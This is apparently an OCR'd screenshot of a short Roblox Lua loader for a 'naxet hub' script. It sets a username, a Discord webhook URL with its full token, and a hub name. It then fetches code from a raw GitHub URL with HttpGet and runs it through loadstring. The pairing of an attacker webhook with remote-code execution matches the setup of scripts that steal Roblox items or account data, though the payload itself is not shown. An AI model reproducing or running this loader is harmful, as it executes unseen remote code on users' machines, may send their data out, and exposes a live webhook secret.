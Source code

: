 _G.Username = "whatczhas"
_G.WebhookUrl = "https://discord.com/api/webhooks/1091946537145344041/VkdmflaF-KAFxQhW2g3E_YecHKyDIZTv-WiBZWRlWcEWA2WGUOB5eArr9bdNRRE27aUb"
_G.HubName = "naxet hub"
loadstring(game:HttpGet("https://raw.githubusercontent.com/whatcz12/script/main/script"))()
